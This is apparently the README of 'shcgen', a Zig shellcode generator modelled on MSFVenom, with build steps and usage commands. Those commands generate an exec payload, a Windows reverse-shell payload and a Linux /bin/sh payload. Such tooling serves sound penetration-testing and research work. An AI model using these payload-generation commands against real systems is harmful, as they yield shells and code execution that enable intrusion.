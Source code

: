 # Shcgen

A shellcode generator written in Zig, inspired by MSFVenom.  

## Install

Download from [releases](https://github.com/hideckies/shcgen/releases/) page and extract it. We can use `shcgen` right away.

## Build

We can also build and use it from source.  
Assuming that you've already installed `zig` in your system.

```sh
git clone https://github.com/hideckies/shcgen
cd shcgen
zig build --release=small
./zig-out/bin/shcgen --help
```

## Prerequisites

Before using `shcgen`, we need to have the following installed:

- `nasm`

To install them, run the following:

```sh
# Debian/Ubuntu
sudo apt install nasm

# CentOS/Fedora
sudo yum install nasm

# macOS
brew install nasm
```

For Windows, download from [NASM official release page](https://www.nasm.us/pub/nasm/releasebuilds/?C=M;O=D).

## How To Use

### Generate Windows Payloads

```sh
# Example 1. Execute arbitrary command
shcgen -p windows/x64/exec --cmd calc -f raw -o /tmp/shellcode.bin

# Example 2. Reverse Shell
shcgen -p windows/x64/shell_reverse_tcp --lhost 127.0.0.1 --lport 4444 -f raw -o /tmp/shellcode.bin
```

### Generate Linux Payloads

```sh
# Example 1. Execute arbitrary command
shcgen -p linux/x64/exec --cmd /bin/sh -f hex
```

See [examples](/examples/) for more details.


